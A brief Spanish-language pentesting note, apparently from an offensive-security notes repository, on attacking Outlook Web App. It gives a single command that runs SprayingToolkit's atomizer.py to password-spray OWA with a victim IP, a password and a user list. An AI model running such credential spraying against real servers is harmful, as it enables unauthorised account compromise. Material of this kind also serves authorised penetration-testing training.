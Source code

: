 ## Abusing OWA

Este servicio se suele alojar en `http://url/owa`. Podemos atentar contra él con la herramienta [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit). Para atentar contra Outlook Web App (OWA) usaremos el [atomizer.py](https://github.com/byt3bl33d3r/SprayingToolkit/blob/master/atomizer.py): 

```shell
python3 /opt/SprayingToolkit/atomizer.py owa <IP_VÍCTIMA> '<CONTRASEÑA>' <USER_LIST>
```

